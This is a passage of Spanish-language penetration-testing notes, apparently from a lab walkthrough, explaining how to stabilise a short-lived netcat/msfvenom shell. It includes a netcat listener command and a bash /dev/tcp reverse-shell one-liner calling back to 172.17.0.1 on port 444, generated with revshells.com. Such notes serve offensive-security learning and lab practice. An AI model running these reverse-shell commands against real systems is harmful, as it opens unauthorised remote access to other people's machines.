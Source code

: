 
- Como  las conexiones con netcat y msfvenom no duran mucho tiempo tenemos que estabilizarla.
    - En otra terminal nos ponemos a la escucha en otro puerto , por ejemplo en el 444
    - Usaremos la web [https://www.revshells.com/](./imagenes/https://www.revshells.com/) ****para crear la revershell. Poniendo los datos necesarios. En este caso nuestra IP y un nuevo puerto
        
        ![image.png](./imagenes/image%2030.png)
        
    
    - Creamos una nueva conexión con netcat en el puerto 444 en una nueva terminal.
        
        ```bash
        sudo nc -nlvp 444
        ```
        
        ![image.png](./imagenes/image%2031.png)
        
    
    - Ejecutamos nuestro archivo malicioso y vemos como  se establece conexión en la escucha en el puerto 443 y escribimos lo siguiente en el aprovechando lo que hemos obtenido del a web  https://www.revshells.com/ ****
        
        `bash -c "**sh** -i >& /dev/tcp/**172.17.0.1**/**444** 0>&1"`
        
        ![image.png](./imagenes/image%2032.png)
        